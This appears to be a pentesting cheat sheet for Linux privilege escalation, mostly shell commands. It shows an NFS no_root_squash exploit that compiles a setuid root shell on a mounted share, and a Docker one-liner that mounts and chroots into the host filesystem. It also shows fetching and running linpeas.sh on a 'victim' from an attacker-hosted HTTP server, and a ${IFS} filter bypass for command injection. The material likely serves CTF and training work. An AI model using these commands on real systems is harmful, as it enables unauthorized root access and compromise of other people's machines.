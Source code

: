 ##  NFS Root Squashing
![image](https://github.com/user-attachments/assets/f4690e23-5a21-4f77-9210-2900a52c1a69)
It means that the /tmp folder is shareable and can be mounted and everything inside the mount gonna be run by root, so we can take advantage of that.
```shell
cat /etc/exports
# output example=/tmp *(rw,sync,insecure,"no_root_squash",no_subtree_check)

# in kali
showmount -e <target ip>

mkdir /tmp/mountme
mount -o rw,vers=2 <target ip>:/tmp /tmp/mountme

# Now we put something malicious in the mounted folder
echo 'int main() {setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/malicious.c

gcc /tmp/mountme/malicious.c -o /tmp/mountme/shell
chmod +s /tmp/mountme/shell

# From the target machine
cd /tmp
./shell
root

```

## Docker
![image](https://github.com/user-attachments/assets/32b09a20-8ca1-4fc8-8702-bd914f5ef9d5)

```shell
# run linpeas or linenum in the victim machine "You have a low level user shell on the victim machine"
# if you saw the same msg as in the image run the following command
docker run -v /:/mnt --rm -it bash chroot /mnt sh

```

## Tips
1- If you are not finding directories, perhaps u should look for subdomains.
```shell 
wfuzz -c -f sub-fighter -w <wordlist> -u <url> -H "Host: FUZZ.target.com" --hw 290 (exclude 290 errors)

```
2- To download a shell/script or anything in victim machine
```shell
# In kali machine
python3 -m http.server 80

# In victim linux machine: try drop it in an writable folder such as temp
cd /temp
wget http://10.4.93.125:80/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

```
3- Backticks (`) have the highest preference in a command.
4- In command injection, if space()is being filtered, use ${IFS}.
